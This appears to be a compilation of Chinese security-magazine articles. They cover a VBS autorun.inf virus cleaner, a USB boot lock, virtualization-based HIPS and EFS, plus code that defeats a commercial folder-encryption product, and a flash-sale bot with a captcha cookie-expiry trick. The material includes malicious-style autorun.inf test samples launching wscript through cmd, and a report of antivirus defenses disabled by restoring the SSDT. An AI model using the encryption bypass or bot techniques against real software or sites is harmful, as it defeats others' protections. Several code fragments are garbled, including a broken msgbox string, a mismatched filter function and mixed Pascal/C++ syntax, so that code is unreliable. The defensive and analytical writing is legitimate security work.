通过分析，我们可以发现每一行只有两种可能：一种有空格，另一种没有。而且无论病毒文件名如何变化，都会出现在每行最后一个空格之后。因此可以先判断该行有无空格；有空格则用Split按空格分组并取最后元素；无空格则用正则匹配"\=.*"读取等号后的内容，再用replace与trim处理，得到病毒路径。这种匹配方式的优点是不通过扩展名判断，病毒无论怎么变形都可以检测到。

```vb
' 规则匹配检查函数，sline为待匹配字符串，rule为匹配规则
Function Test(sline,rule)
  sline=lcase(sline)
  rule=lcase(rule)
  Set objreg=New RegExp
  objreg.Pattern=rule
  objreg.IgnoreCase=False
  objreg.Global=False
  result=objreg.Test(sline)
  If result=False Then
    Test=""
  End If

  If result=True Then
    Set matches=objreg.Execute(sline)
    For Each match In matches
        Test=lcase(match.Value)
    Next
    msgbox "Test&发现&rule&"在""
  End If
  set objreg=nothing
End Function
```

```vb
... 成功3!提示
End If
next
End Sub
```

下面要说的是进行文件的十六进制深入分析功能。提出这个功能的缘由是conficker蠕虫经典的变态autorun.inf，由于它通过INF文件里的注释符“;”后面的内容不执行，加入了大量的垃圾干扰代码，同时由于采用Unicode Big-Endian编码，使用FSO来扫描很容易出错，如下图所示。


函数详细注释如下，里面调用的其他函数请参考源码，为节省版面不做说明。

```vb
' 深度扫描函数
Sub hexsvirus(path_t,drive)
    str=lcase(File2Hex(path_t))
    strarry=split(str,"0a",-1)
    for i=0 to ubound(strarry)
        strhex=Test(Hex2Str(strarry(i)&"0a")&"--vmx",i+1)
        If len(strhex)>0 then
            tmpwspopup "第"&(i+1)&"行发现可疑"
            strhexarry=split(strhex," ",-1)
            virus_p=trim(strhexarry(ubound(strhexarry)))
            virus_p=lcase(drive&"\"&virus_p)
            call del(virus_p)
        end if
    next
End Sub
```

这里我只以conficker蠕虫的特征为例，你可以把采集到的其他特征写成数组，相当于一个小型病毒特征码库，然后通过上面提供的文件十六进制分析函数进行循环判断，所以扩充是非常方便的。

要提到的是十六进制也有其不足的地方：由于十六进制中字母大小写不同，这样改变了字符串的大小写后，若采用十六进制特征就必须进行相应变化；同时ANSI和UNICODE两种编码的不同，也会加大分析难度。基于这个原因我在函数中用到了Hex2Str函数，这样就可以通过转化为字符串，然后使用VBS里自带的LCASE转小写或者UCASE转大写函数统一来进行比较，避开了大小写的缺点。

上面就是整个UKILL脚本的核心部分。还有一些常见的其他函数我就不累赘地叙述了。下面要分享一下编写过程中自己写的两个比较新颖的自定义函数。

一个是文件遍历。常见的VBS遍历方式是用FSO，这里我用VBS调用WMI写了一个只遍历磁盘根目录下的函数。只要将这个函数稍加改动，采用递归调用，就是一个非常不错的纯WMI的VBS全盘遍历文件的函数。

```vb
' 遍历 autorun.inf 函数
Sub wmisfile(path_sf)
    on error resume next
    set filelist = objwmi.execquery(...)
    ' 采用 CIM_DATAFILE 速度比较快
    for each objfile in filelist
        fname=lcase(objfile.name)
        ename=lcase(objfile.extension)
        If instr(fname,"autorun.inf")>0 then
            ...
        End If
    next
End Sub
```

```vb
tmpws.popup "发现autorun.inf,快速扫描启动",3,"提示"
call fsosvirus(fname,path_sf)
tmpws.popup "发现autorun.inf,深度扫描启动",3,"提示"
call hexsvirus(fname,path_sf)
re=objfile.delete

' 这个是WMI里删除文件的一种方法
If not(re=0) then
    msgbox fname&"清除失败程序即将退出"
    wscript.quit
Else
    tmpws.popup fname&"触发匹配规则, 清除成功",3,"提示"
End If
...
End Sub
```

另外一个是VBS自身完整性校验函数。为方便叙述，详细注释如下：

```vb
' 简单自校验函数
Function copyright(path_f)
    Set tmpfso=CreateObject("Scripting.FileSystemObject")
    ' 一个临时的FSO对象,后面记得要释放
    copyright=false
    Set f=tmpfso.GetFile(path_f)
    size=f.size
    ' 获取文件大约大小作为判定标准之一
    Set fv=tmpfso.OpenTextFile(path_f,1)
    buffer=LCase(fv.ReadLine)
    version=LCase("Ukill v20 made by pk 2009124")
    Do Until (fv.AtEndOfStream)
        buffer=LCase(fv.ReadLine)
        ...
    Loop
    If InStr(buffer,version)>0 Then
        If size=3809 Then
            copyright=True
        End If
    End If
    Set tmpfso=Nothing
End Function
```

这里我提供的是一个简单的FSO方式自校验完整性的方法。其实还可以做得更加严格一点，说一下思路：可以用一个数组装入一些设定好的非打印十六进制数，散乱分布于VBS脚本中，通过之前的十六进制深入扫描函数`hexsvirus`来判定预先设定的初始值是否在特定位置。如果任何一个初始值有改动，则校验失败，文件自焚。这样的检验比较严格，且可避免对FSO对象的依赖。

后经过FlowerCode兄的几个变形autorun.inf测试，都非常难弄。这里贴出来，希望有对VBS感兴趣的朋友一起来想个更加通用的方法定位出路径。

以下来自FlowerCode兄的超囧测试。

##### 测试一

```
现有 Windows XP SP3 简体中文专业版系统安装在某盘（系统盘下）。
文件1（无扩展名）内容如下：
msgbox "OK"
文件autorun.inf内容如下：
[autorun]
icon=
open=shellexecute=cmd /c start wscript /e:vbscript 1
```

##### 测试二

```
[autorun]
icon=
open=shellexecute=cmd /c "for /f %%a in (1) do start wscript /e:vbscript %%a"
```

测试一中，由于我的脚本判断规则的漏洞，会删除空格后的东西，导致会删除系统文件`boot.ini`。一个解决方法是只判断`open`、`shellexecute`、`command`后的内容；但这3个仍不够，比如利用注释符号也可绕过。还需要判断是否为注释行。另测试一中会获取到路径“1”，可通过Windows文件名非法字符（如`\ / : * ? |`）进行过滤。过滤函数如下：

```vb
function profiler(string)
    string=trim(lcase(string))
    sarray=split(string,"\",-1)
    sstring=sarray(ubound(sarray))
    msgbox sstring
    s$="\/:*?""<>|"
end function

for i3=1 to len(s$)
  sstring=replace(sstring,mid(s$,i3,1),...)
next
profilter=sstring
end function
msgbox profilter("c:\N"&chr(&h22))
```

至于测试二，请教了一下FlowerCode后，感觉对这种变量赋值的定位希望比较渺茫，但是有一个特点也许可以利用：因为是命令行，也许可以通过`%`来判断。由于个人时间关系没有进一步完善，希望有对VBS感兴趣的朋友一起来想个更加通用的方法定位出路径。

好了，编写UKILL 2.0的整个过程中的心得在这里和大家分享一下。由于水平和时间的限制没有进一步优化，文章中有不对之处敬请指正。UKILL 1.0的编写我没有说明，大家可以自己参看打包的附件。如果你也是VBS的爱好者，欢迎到黑防的论坛提出你的想法和大家一起交流。

前置知识：VC  
关键词：工具，开机锁

## U盘打造开机锁

文/图 Masepu


我的电脑常常被不注意安全的同事使用，结果经常染毒重装，让我非常头疼。因此我希望采取一种类似于“U盾”的方式来保护主机：当开机时我们将作为U盾的U盘插入主机，开机后程序自动判断此U盘是否为指定的U盾，如果是则可正常使用，否则限制使用。

我们可以将自己的任意一个U盘作为U盾。开机后程序能够迅速启动并判断主机USB口是否插有U盘，若有则判断该U盘是否为事先设定的开机U盘；如果是，使用者可以正常使用主机；如若不同或没有开机U盘，则禁止使用主机。根据这一思路，我打算采用识别和读取U盘VID、PID、产品序列号的方式来判断U盘是否为指定的U盘，因为不同的U盘具有不同的序列号，我们可以用其作为识别每个U盘的唯一标识。如果开机时不存在U盘设备或该设备的ID与预先确定的ID值不符，则系统会自动关机，从而达到限制非法使用的目的。程序的实现流程如图1所示。


图1

在第一次运行时，程序需要对作为“U盘锁”的某个U盘进行记录，以便于在下次运行时能够识别比较，并且要创建程序启动的服务，以便下次开机时自动运行。当再次运行程序时，程序会判断指定目录下记录“U盘锁”ID的文件是否存在，若存在则与当前U盘的序列号比较，如若相同则不作操作退出程序；如若不同，则关闭系统，从而实现利用一个普通U盘实现电脑开机锁的功能。以下是根据U盘设备的GUID获取U盘设备路径的函数代码：

```cpp
// 根据GUID获得设备路径,用来判断U盘设备
// 返回:成功得到的设备路径个数,可能不止一个
int GetDevicePath(LPGUID lpGuid, LPTSTR* pszDevicePath)
{
    HDEVINFO hDevInfoSet;      // 设备信息集句柄
    SP_DEVICE_INTERFACE_DATA ifdata;
    PSP_DEVICE_INTERFACE_DETAIL_DATA pDetail;
    int nCount;
    BOOL bResult;

    hDevInfoSet = SetupDiGetClassDevs((LPGUID)&UsbClassGuid,
                                      NULL,
                                      NULL,
                                      DIGCF_PRESENT | DIGCF_DEVICEINTERFACE);
    if (hDevInfoSet == INVALID_HANDLE_VALUE) return 0;

    pDetail = (PSP_DEVICE_INTERFACE_DETAIL_DATA)GlobalAlloc(LMEM_ZEROINIT, INTERFACE_DETAIL_SIZE);
    pDetail->cbSize = sizeof(SP_DEVICE_INTERFACE_DETAIL_DATA);
    nCount = 0;
    bResult = TRUE;

    while (bResult)
    {
        ifdata.cbSize = sizeof(ifdata);
        bResult = SetupDiEnumDeviceInterfaces(
            hDevInfoSet,
            NULL,
            lpGuid,
            (ULONG)nCount,
            &ifdata);
        // ...
    }
}
```

```cpp
if (bResult)
{
    // 取得该设备接口的细节(设备路径)
    bResult = SetupDiGetInterfaceDeviceDetail(
        hDevInfoSet,
        &ifdata,
        pDetail,
        INTERFACE_DETAIL_SIZE,
        NULL,
        NULL);

    if (bResult)
    {
        // 复制设备路径到输出缓冲区
        wcscpy_s(pszDevicePath[nCount], wcslen(pDetail->DevicePath)+1, pDetail->DevicePath);
        nCount++;
    }
}

GlobalFree(pDetail);
SetupDiDestroyDeviceInfoList(hDevInfoSet);
return nCount;
```

一个GUID为一个128位的整数（16字节），GUID的格式为“xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx”，其中每个x是0~9或a~f范围内的一个十六进制数字。Windows平台上GUID应用非常广泛，如注册表、类及接口标识、数据库、自动生成的机器名目录名等。Microsoft定义了一些设备类的GUID，对于USB设备的GUID号可用于获得U盘设备路径。通过设备路径可以进一步得到每个U盘的序列号，用以判断U盘是否为指定U盘。程序中通过将某个U盘的序列号写入指定文件的方式来记录该U盘，当该文件记录值与当前U盘值不符，则会强制关机。以下是强制关机的主要代码：

```cpp
if (!GetVersionEx((__&stOSVI__))) return;
if ((VER_PLATFORM_WIN32_NT == stOSVI...))
{
    // ...
}
```

```c
dwPlatformId) && (...4 <= stOSV.dwMajorVersion))
{
    HANDLE hToken;
    TOKEN_PRIVILEGES tkp;
    if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken))
        return;
    // Get the LUID for the shutdown privilege
    LookupPrivilegeValue(NULL, SE_SHUTDOWN_NAME, &tkp.Privileges[0].Luid);
    tkp.PrivilegeCount = 1;
    tkp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
    AdjustTokenPrivileges(hToken, FALSE, &tkp, 0, (PTOKEN_PRIVILEGES)NULL, 0);
    if (GetLastError() != ERROR_SUCCESS)
        return;
    if (!ExitWindowsEx(EWX_SHUTDOWN | EWX_FORCE | EWX_POWEROFF, 0))
        return;
    ...
    else // WIN9X
    {
        ExitWindowsEx(EWX_SHUTDOWN | EWX_FORCE | EWX_POWEROFF, 0); // 关机
    }
}
```

整个程序的逻辑也是按照图1实现的。如果没有U盘存在，且无有效的U盘ID文件在指定目录，则无任何操作。如果在指定目录下存在有效U盘ID文件，则与当前U盘序列号比较，如果此时无U盘设备或序列号不一致，则强制关机。程序可通过添加到启动目录来实现开机自启动，或通过注册表启动键值和服务来实现，这些方法的实现这里就不再赘述了。

> （编辑提醒：本文涉及的代码已收入随书光盘，请到光盘中查找。）

前置知识：无  
关键词：恶意代码，HIPS，虚拟化

## 基于硬件虚拟化的HIPS

文/图 余跃（武大信安）

在病毒、木马、Rootkit等恶意代码泛滥的互联网时代，传统反病毒技术显得越来越力不从心，恶意代码数量急剧增加，传播速度增快。

## HIPS技术原理

目前，Rootkit等恶意代码的进攻方向已经逐渐从应用层转向内核级。当Rootkit进入内核模式下，就拥有了非常高的权限。常用的反病毒软件都通过SSDT Hook技术来实现主动防御或者HIPS，如果Rootkit生存在Ring0层，就表明与主动防御有同样的特权，可以轻松突破主动防御或HIPS。表1所示是测试通过运行SSDTest程序加载一个能够恢复SSDT的驱动后（加载驱动时用户故意放行）得到的结果。图1是开启某杀毒软件时的SSDT表，图2是运行SSDTest后的SSDT表。

### 表1

| 测试目标安全软件 | 测试方式 | 结果 | 主动防御功能 |
|---|---|---|---|
| 瑞星杀毒2009 | 运行SSDTest | SSDT被恢复 | 失效 |
| 卡巴斯基2009 | 运行SSDTest | SSDT被恢复 | 失效 |
| EQ魔法盾 | 运行SSDTest | SSDT被恢复 | 失效 |

从图1和图2可以看出，SSDT表已经被恢复。我们再启动任意软件可知，其主动防御功能完全失效。所以，Rootkit等恶意软件与HIPS之间就如同攻击者和防御者展开的军备竞赛，两者不断相互竞争内核。

现在，HIPS通常采用两种方法对抗Rootkit等恶意代码：守门方式和定时扫描。所谓守门方式，就是通过监视进入内核的入口点，来检测、阻止恶意代码。但是，加载驱动的方法五花八门，种类繁多，如果遗漏一种，就意味着前功尽弃。恶意代码进入内核，则取得了相应的控制权。定期扫描的方法则是通过周期性地扫描内存和内核空间，看是否被恶意代码所破坏，并及时恢复。这种方法无法阻止恶意代码的加载，而且开销较大。

##### 虚拟化技术发展

近些年来，随着计算机硬件技术的飞速发展以及计算机体系结构的不断创新，计算机系统日趋强大的计算能力和相对落后的计算模式之间的矛盾日益突出。虚拟化技术能够在快速发展的硬件系统和复杂多变的应用需求之间找到新的平衡点，它的巨大潜在价值早已引起了广泛关注，国内外对虚拟化技术已经有了较为深入的研究和很广泛的应用。国际著名科技咨询机构Gartner每年会综合各方面信息发布IT技术发展趋势，并选出未来3年最值得关注的十大关键技术。在2006年至2008年连续3年公布的Gartner技术发展趋势报告中，计算系统虚拟化技术都成为能够改变IT产业现有格局的十大IT关键技术之一，尤其是2006和2007年都排在十大IT关键技术的首位。

虚拟化技术于20世纪70年代开始在IBM System370等大型主机上应用。通过将硬件层抽象化，虚拟化技术把应用、数据和物理系统分隔开，从而增加了灵活性，使得物理资源可以更好地配合工作负载和数据要求。

纯软件的虚拟化技术的主要问题是性能和隔离性的权衡，它可以提供较好的客户操作系统独立性，但是性能不高；它也可以提供较好的性能，但其客户操作系统独立性就存在一定问题。Intel和AMD为避免纯软件虚拟化的不足，在2005年分别推出了全新的硬件辅助虚拟化技术，它们是Intel的VT技术和AMD的Pacifica技术。硬件辅助虚拟化技术在代码密集、预测例外和系统调用方面的性能带来了大幅提升。

## 基于虚拟化技术的HIPS

Intel和AMD相继提出自己的硬件虚拟化技术，该技术允许VMM位于比操作系统内核（Ring 0）更底层的根模式，有专家称其为Ring -1层，而可以控制内核级特权指令的执行，这也为HIPS提供了新的思路。

Intel和AMD推出其硬件虚拟化技术后，使得控制Ring0级别的操作成为可能。开启虚拟化模式后，由于VMM工作在更底层的根模式，完全可以控制GUEST OS内核的操作。目前，硬件虚拟化已经开始在安全领域崭露头角。2007年末，NorthSecurityLab发布基于虚拟化的Rootkit检测工具——Hypersight，号称世界上第一款VIPS。2008年的BlackHat大会上日本Murakami发表议题——《A Hypervisor IPS based on Hardware assisted Virtualization Technology》；2008年Xcon焦点峰会上徐昊发表议题——《Windows系统内核防护——基于芯片虚拟化技术》。

如何将HIPS与虚拟化技术相结合，并且拥有很好的实用价值呢？这是一个非常值得思考的问题。

- 1. 内存保护机制的监控
- 2. 关键CPU表的监控

众所周知，要进入系统内核如挂钩SSDT表，必须修改内存保护机制，所以HIPS可通过虚拟化技术来监控相应的内核保护机制关键位（如CR0寄存器）来实现内核级别的监控与防护。

CPU内部无法存储所有的地址，因此它必须将这些地址分类，并存储在特定的地方，必要时对其进行查询。重要的CPU表包括全局描述符表（GDT）——用于映射地址；本地描述符表（LDT）——用于映射地址；中断描述符表（IDT）——用于找中断处理程序；系统服务调度表（SSDT）——用于处理系统调用。

恶意代码为了隐藏自身或者捕获一些重要数据，通常会Hook这些表，所以采用虚拟化技术监控这些表，也可以达到守住Ring0的目的。

前置知识：无  
关键词：工具，EFS，文件加密

## 利用EFS提高文件系统的安全性

文/图 尹晓丹 王丽婧

EFS是从Windows 2000开始提供的系统自带加密文件系统，在Windows XP/Vista/7中均有支持，可针对存储在NTFS磁盘卷上的文件和文件夹进行加密操作，并对用户实现读写透明。

EFS同时采用了对称加密算法和非对称加密算法。首先采用对称加密算法对文件内容进行加密，再采用非对称加密算法对对称密钥进行处理。读取时，先用用户私钥解密得到加密文件的密钥，再用该密钥解密得到文件内容。

当一个新文件被加密时，系统首先会生成一个由伪随机数组成的FEK（File Encryption Key，文件加密密钥），然后利用FEK和数据扩展标准X算法创建加密后的文件，并把它存储到硬盘上，同时删除未加密的原始文件。

首次使用EFS时，如果用户还没有公钥/私钥对（非对称密钥），则首先会根据加密者的安全标识符SID（Security Identifier）生成该用户的非对称密钥。如果登录到了域环境中，密钥的生成依赖于域控制器；否则它将依赖于本地机器。然后，EFS从用户证书中获取公钥，用它来加密FEK，并将加密后的FEK写入被加密文件的头部。如果设置有数据恢复代理，再将FEK用数据恢复代理的公钥进行加密，同样写入被加密文件的头部。用EFS加密后的文件结构如图1所示。

| 文件头/内容结构 |
|---|
| 经文件拥有者公钥加密后的FEK |
| 经数据恢复代理1公钥加密后的FEK |
| 经数据恢复代理2公钥加密后的FEK |
| …… |
| 经FEK加密后的文件内容 |

图1

系统中的私钥并不是以明文形式存放的，而是调用数据保护API（Data Protection API）随机产生256位的一个对称密钥——用户主密钥（Master Key），用以加密私钥。加密后的私钥将被保存在 `C:\Users\Username\Application Data\Microsoft\Crypto\RSA\SID` 文件夹中，图2所示为文件私钥的部分内容。

为了进一步提高系统的安全性，对主密钥进行保护，EFS将再次调用数据保护API，计算用户凭据（包括登录用户名和口令）的Hash值，作为一个对称口令加密密钥，对主密钥进行加密。加密后的主密钥保存在文件夹 `C:\Users\Username\Application Data\Microsoft\Protect\SID` 中。

而在访问被加密文件时，系统首先根据用户证书验证登录用户身份，判断其是否拥有对该文件的操作权限，如果没有则拒绝用户访问。如果为合法用户，系统将首先计算用户凭据的Hash值，用它解密得到主密钥，再用主密钥解密用户私钥。利用当前用户的私钥解密FEK，最终利用FEK解密出文件。

EFS对用户是透明的。用户读取已加密文件时，首先由NTFS发送一个解密请求呼叫到EFS驱动，EFS驱动从加密文件获得加密后的FEK并传递给EFS服务，EFS服务从用户配置文件中获得用户私钥解密得到FEK，再将FEK传递给EFS驱动，EFS驱动使用FEK解密加密文件中应用程序需要的部分，EFS驱动将解密后的数据传递到NTFS，再由NTFS发送到应用程序。整个过程对用户来说是透明的。

EFS的操作比较简单方便，选择需要加密的文件，在右键菜单中选择“属性”，打开“高级属性”，勾选“加密文件内容以便保护数据”，单击“确定”并应用后，可以看到文件名变成绿色，表示这个文件已经被加密保护了，如图3所示。

如果希望除当前用户之外的其他用户也可以访问该文件，则可以通过用户证书对其他用户进行授权。同样打开文件的高级属性，在“加密文件内容以便保护数据”右面有“详细信息”选项，打开详细信息，如图4所示。可以看到“可访问这个文件的用户”列表，其中已经有当前用户（即加密文件的拥有者），单击“添加”，在出现的对话框中选中要对应进行授权的用户证书并确定，如图5所示，保存修改，那么这个用户就可以与当前用户一样实现对该文件的透明操作了。

由于对称和非对称策略的同时使用以及对用户私钥、主密钥的加密保护，EFS的安全性是比较高的。如果要进一步提高安全性，可以从私钥入手。

上文提到用户私钥是经过加密后保存在 `C:\Users\Username\Application Data\Microsoft\Crypto\RSA\SID` 文件夹中的，攻击者有可能采用一些手段破解得到私钥明文，对已加密文件造成威胁。对此，我们可以将私钥导出到其他存储设备中，并删除本地记录，需要时再从存储设备导入，这样攻击者就无法得到私钥，从而不能对文件进行破解。

在运行中输入“certmgr.msc”，打开证书管理单元，在“证书→当前用户→个人→证书”中，选中要导出的证书，右键选择“所有任务”→“导出”，如图6所示，进入证书导出向导，按提示对证书进行导出，选择要将证书保存到的位置，选择将私钥同证书一起导出，选择“如果导出成功删除私钥”，完成后即可将该证书从本地删除。如果用户需要对文件进行读取等操作，将已导出的证书再安装到本地即可。并且当重装系统导致原用户证书、私钥等数据丢失时，将证书再次导入到当前用户系统中，那么之前用EFS加密的数据仍能使用。

在EFS中，允许将某一用户设置为数据恢复代理，该用户拥有对所有用户加密文件的操作权限。这样，当某用户账号被删掉时，可以用数据恢复代理来恢复出被该用户加密的数据。

首先用将要设置为数据恢复代理的用户登录系统，以管理员身份运行命令提示符，用 `cipher /r:name` 命令为当前用户生成名为name的证书，并根据提示设置密码将证书保护起来，完成后可在 `C:\Windows\system32\` 文件夹中找到 `name.cer` 和 `name.pfx` 两个文件，将这两个证书文件安装到系统中。接下来在运行中用 `gpedit.msc` 打开本地组策略编辑器，选择“计算机配置→Windows设置→安全设置→公钥策略”，右键选择“加密文件系统”→“添加数据恢复代理程序”，按照添加故障恢复代理向导的步骤找到上文中生成的证书，如图7所示，完成后即可将当前用户设置为数据恢复代理。

但是该用户只对在其被设置为数据恢复代理后加密的文件有操作权限。

从加解密方法和密钥管理策略来说，EFS都是比较安全的，但是任何密码算法都有被破解的可能性，这就意味着我们不能绝对依赖任何加密系统，而是要提高自身安全意识，加强对信息的保护。

前置知识：无  
关键词：工具、加密、解密

#### 文件夹加密超级大师的脆弱加密分析

文/图 liuke_blue

前不久我的一个同学使用了文件夹加密超级大师（版本：15.9.3.0），如图1所示，有些重要资料是通过该软件的文件夹隐藏加密方式进行加密的，但他重装系统后发现加密资料已经找不到了，即使在密码正确的情况下也找不到。后来听说这个软件是共享软件，需要获得注册码才能找到，所以要我帮忙，最后我通过分析找到了他存放的资料。下面就给大家分析一下这款软件的一些加密原理。

我们看看这个软件的磁盘保护功能。磁盘保护有三种：初级、中级、高级。由于没注册，所以只能使用初级和中级。

初级的保护原理为：在 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\policies\Explorer` 下新建 DWORD 值 `NoDrives`（其中隐藏值与磁盘号按二进制规则对应：A=1，B=2，C=4，D=8，依此类推）。如果要隐藏 C、D 盘，则设置为 `4+8=12`。同时在同一路径下新建 DWORD 值 `NoViewOnDrive`，用来防止打开磁盘，设置方式与 `NoDrives` 相同。

中级的保护原理为：通过删除磁盘驱动号来隐藏磁盘。通过“控制面板→管理工具→计算机管理→磁盘管理”，可对删除的驱动号重新添加以显示磁盘。

禁止使用USB设备的原理为：将 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\USBSTOR` 里的 `Start` DWORD 值改为 `4`，使USB驱动开机时不自动加载，从而达到禁用U盘目的。

只读使用U盘、移动硬盘的原理：在 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control` 下添加 `StorageDevicePolicies` 项，再添加 DWORD 值 `WriteProtect` 并设为 `1`。

文件夹加密超级大师的一个重要功能是对文件夹进行加密。加密方式分为快速、隐藏等。安装后你会发现每个磁盘下都有回收站（`RECYCLER`）文件夹，这个文件夹里保存着用该软件加密后的文件夹。

这个文件夹无法直接打开、删除、复制，甚至使用资源管理器工具也难以识别和操作。这是因为文件夹名包含特殊字符。加密后的文件夹包含三层：第一层是特殊文件夹名（如图2），第二层文件夹名形如 `W-S-FSE-750715-771104-3000`，第三层文件名形如 `com1,{21EC2020-3AEA-1069-A2DD-08002B30309D}`，需要逐层处理。

```pascal
function JieMi(Sourcedir, DestDir: widestring): boolean;
var
  i: integer;
  TempDir, Reserved: widestring;
  runpath: string;
begin
  result := false;
  // 去掉第一层文件夹
  for i := 0 to 12 do
    sourcedir := sourcedir + widechar($007F);
  sourcedir := sourcedir + widechar($00E3) + widechar($002D) + widechar($002E) + widechar($005C);

  SetFileAttributesW(pwidechar(sourcedir), FILE_ATTRIBUTE_NORMAL);
  if not MoveFileW(Pwidechar(sourcedir), pwidechar(DestDir)) then
    exit;

  // 去掉第二层文件夹
  TempDir := DestDir + 'W-S-FSE-750715-771104-3000';
end;
```

```cpp
3000;
Reserved = DriverPath + TEMPIN;
if not MoveFileW(PWideChar(TempDir), PWideChar(Reserved)) then
    Exit;
// 去掉第三层文件夹
TempDir = Reserved + '\\{00121EC2020-3AEA-1069-A2DD-08002B30309D}\\';
LReserved = DriverPath + '解密文件夹\\';
if not MoveFileW(PWideChar(TempDir), PWideChar(LReserved)) then
    Exit;
SetFileAttributesW(PWideChar(LReserved + Local), FILE_ATTRIBUTE_NORMAL);
SetFileAttributesW(PWideChar(LReserved + Hide), FILE_ATTRIBUTE_NORMAL);
RmDir(string(DestDir));
RmDir(string(Reserved));
RunPath = Explorer + ' /n,/e,' + LReserved;
WinExec(PChar(RunPath), SW_SHOW);
Result = True;
end;
```


图3

下面通过该程序解密文件夹加密超级大师 V15.9.3.0 这个软件加密的文件夹，解密后的效果如图3所示。

解密后会自动打开解密的文件夹，其中 Hide 文件夹里保存着用隐藏方式加密的文件夹，而 Local 文件夹里保存着闪电方式加密的文件夹。每个解密的文件夹里会含有一个文件名为 FSEEncFolder.info 的文件，这就是存放加密该文件夹的密码的文件。其他的加密方式为全面、金钻、移动，这几种方式使用了加密算法把文件夹里的文件进行加密，如果想要解密出来的话，需要分析该软件所使用的算法或者解密出加密密码才能对加密的文件夹进行解密。这里就不多说了，很多快速加密的软件大多都是使用我所分析的这种“加密”方式来加密文件的，其中所不同的是加密后的文件夹的命名不同罢了，有兴趣的读者可以根据我所提供的思路和源代码自己编写这类所谓的“高强度”加密软件。

> （编辑提醒：本文涉及的代码已收入随书光盘，请到光盘中查找。）

前置知识：ASP.NET  
关键词：工具、秒杀器、Socket

#### 深挖“秒杀”技术背后的猫腻


文／图  杨子

如今“秒杀”已经成为一个超级热门的词语。“秒杀”的英文为“Seckill”，最初是用于网络游戏的特定用语，因其瞬间击杀对手或一招致死的极端战斗方式而得名。近年来，“秒杀”概念逐渐衍生到网络，特指网上“限时抢购”。如今，网友只用1元就可能“秒杀”到一台笔记本电脑，甚至是一套房子。几十件、上百件热门商品被放到网上以后，在几分钟甚至是几秒钟之内被一抢而空，发起“秒杀”活动的网站商家也经年不绝。但是，买家永远没有卖家精，能够成功“秒杀”的人总是很少，从未“秒杀”成功的普通网民满腹牢骚，卖家作弊、买家使用“秒杀器”等猜测遍布网络。于是，很多人开始寻求各种“秒杀”技巧。

##### 流量“秒杀”的一些技巧

在缺乏监管机制的前提下，商家通过暗箱操作将商品卖给自己人，买家则可能在“天上掉馅饼”的幻想中步入商家的“陷阱”。当然，“秒杀”也是有经验和技巧的，这里首先介绍几个比较公认的方法。

- （1）从拍下到支付要一气呵成。在秒杀即将开始之前，尽可能快地刷新页面，看到立即购买的字样跳出，要以条件反射般的速度开始按下去。付款时，支付宝密码要短，且要异常熟练。
- （2）最后，如果想成为一个超级秒杀客，还要树立一个秒杀达人的时间观，要以0.1秒、0.01秒计算。如果实在速度慢，那不妨平时多练习。

除了上述技巧，使用好浏览器也是一个不错的办法，尤其是浏览器的“自动刷新”功能。以 Firefox 火狐为例进行说明，对于使用 Firefox 浏览器的朋友来说，在“附加组件”中搜索安装“ReloadEvery”这个扩展插件，也可以到其下载页面（https://addons.mozilla.org/zh-CN/firefox/addon/115/）下载安装。安装完成后重新启动 Firefox，打开淘宝促销频道参与秒杀的宝贝页面，然后在左上角的刷新按钮处单击，在下拉菜单中你可以看到有更多的自动刷新选项，单击“自定义”，设置刷新时间（比如1秒），选择“启动”即可生效。当然，上面的技巧只是秒杀的“小儿科”技术，现在有关秒杀器的研究也是越来越红火。那么，秒杀器有什么玄机呢？

##### “秒杀器”及“秒杀”技术的黑幕探源

秒杀器也叫做“抢拍器”，它主要是为了把下单的流程尽量降到最低，并且将该操作提前进行，在提交抢拍数据时，会自动判断提交数据是否有效，如果无效可以瞬间再次自动提交，无需人工介入。这个功能在抢拍器中叫做“辅助抢拍”，其速度是以毫秒为单位计算的，从此可见人工提交速度会被远远地抛在后面。如图1所示是一些典型的秒杀界面。


图1

为了解决这个问题，网络好事者针对验证码进行了诸多研究。不少网站为了防止用户利用机器人自动注册、登录、灌水，都采用了验证码技术。验证码将一串随机产生的数字或符号生成一幅图片，图片里加上一些干扰像素（防止OCR），由用户肉眼识别其中的验证码信息。输入表单提交网站验证，验证成功后才能使用某项功能。目前比较通用的办法就是使用 Cookies 强制过期法，让验证码失效。具体步骤如下：

- 第1步：引入核心命名空间，这是一切类的基础。引用命名空间为的就是能够直接使用隶属于对应命名空间内的类。using 后面的内容都是命名空间，程序中用到的类就存储在其中，如“using System;”。
- 第2步：定义秒杀类 MiaoSha。除了网速的比拼，能够成功秒杀的关键因素还是要把握时间，因为“秒杀”通常只在特定的时间点上开场，如果盯着这个页面一直手动刷新的话，显然费时费力。因此，定义 MiaoSha 类时，在这方面要重点下功夫。格式如下：
- 第3步：在 MiaoSha 类中定义 Recv() 方法以根据页面响应时间进行微调。sleep() 函数中的……

```csharp
public partial class MiaoSha : System.Web.UI.Page
{
    string strServer = string.Empty;
    string strPath = string.Empty;
    protected void Page_Load(object sender, EventArgs e)
    {
    }
}
```

等待时间是以毫秒计算的，所以等待1秒就是 sleep(1000)。如果要让等待时间小于一秒，那么就让传入的参数小于1000就行了。比如等待0.05秒，就是 sleep(50)，代码如下：

```csharp
public static String Recv(Socket sock, Encoding encode)
{
    Byte[] buffer = new Byte[8192];
    StringBuilder sb = new StringBuilder();
    Thread.Sleep(50);
    // 根据页面响应时间进行微调
    Int32 len = sock.Receive(buffer);
    sb.Append(encode.GetString(buffer, 0, len));
    while (sock.Available > 0)
    {
        Thread.Sleep(300);  // 可以视情况微调
        Array.Clear(buffer, 0, buffer.Length);
        len = sock.Receive(buffer);
        sb.Append(encode.GetString(buffer, 0, len));
        string ss = encode.GetString(buffer, 0, len);
    }
    sock.Close();
    return sb.ToString();
}
```

> **小知识** Socket接口：Socket接口是TCP/IP网络的API，Socket接口定义了许多函数或例程，可以用它们来开发TCP/IP网络上的应用程序。网络的Socket数据传输是一种特殊的I/O，Socket也是一种文件描述符，Socket也具有一个类似于打开文件的函数调用 Socket()，该函数返回一个整型的Socket描述符，随后的连接建立、数据传输等操作都是通过该Socket实现的。

